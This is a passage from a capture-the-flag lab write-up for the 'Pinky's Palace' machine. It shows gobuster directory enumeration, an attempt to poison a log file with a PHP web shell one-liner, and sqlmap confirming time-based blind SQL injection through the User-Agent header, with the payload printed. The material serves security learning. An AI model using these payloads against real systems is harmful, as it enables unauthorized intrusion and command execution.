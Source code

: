 ```bash
root@kali:~$ gobuster dir -u http://127.0.0.1:8080/littlesecrets-main -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --proxy http://192.168.179.160:31337/  -x php,html,txt
...
/index.html           (Status: 200) [Size: 583]
/login.php            (Status: 200) [Size: 68] 
/logs.php             (Status: 200) [Size: 728790]
```

I injected it the logs file with a web shell, apparently the php code is not being interpreted.

![](/assets/images/pinkys1/screenshot-8.png)

```bash
root@kali:~$ curl -s http://127.0.0.1:8080/littlesecrets-main/logs.php --proxy http://192.168.179.160:31337 | html2text -width 800 | tail -1
*** 39212 <?php system($_GET["cmd"])?> <?php system($_GET["cmd"])?> Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0 ***
```

## Exploitation
### SQL Injection

To perform a more advanced test I used sqlmap against the login form, an SQL injection was detected in the User-Agent header.

```bash
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --threads 5 --dbms MYSQL
...
parameter 'User-Agent' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 8816 HTTP(s) requests:
---
Parameter: User-Agent (User-Agent)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sqlmap/1.5.7#stable (http://sqlmap.org)' AND (SELECT 4717 FROM (SELECT(SLEEP(5)))pGuK) AND 'ugVr'='ugVr
---
[20:47:08] [INFO] the back-end DBMS is MySQL
...
```
